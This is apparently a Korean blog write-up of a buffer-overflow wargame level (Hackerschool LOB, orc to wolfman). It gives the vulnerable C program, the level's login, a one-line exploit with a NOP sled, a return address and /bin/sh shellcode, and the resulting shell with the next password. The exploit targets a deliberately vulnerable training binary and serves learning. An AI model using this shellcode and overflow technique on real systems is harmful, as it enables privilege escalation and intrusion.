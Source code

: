 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL5 (orc -> wolfman) : egghunter + bufferhunter"
date: 2015-11-06 23:50
comments: true
categories:  wargame
tags: [bof]
---
```


- id = orc 
- pw = cantata

<!--more-->

사실 이번 문제는 이전 Stage#4와 차이점은 buffer 앞의 40bytes 에 0 으로 초기화.
이전 문제를 운이 좋게도 buffer 앞에 NOP 를 넣고 `LR` 뒤에 shellcode 를 넣도록 구성을 하여 이번 문제는 그대로 풀린다. ㅋㅋ

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

## Exploit

```bash
[NOP 44bytes][LR][NOP 20bytes][ShellCode]

./wolfman `python -c 'print "\x90"*44 + "\x94\xfc\xff\xbf" + "\x90" * 20 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
```

## Next stage

```bash
bash$ id °
uid=504(orc) gid=504(orc) euid=505(wolfman) egid=505(wolfman) groups=504(orc)

bash$ my-pass
euid = 505
love eyuna 
```
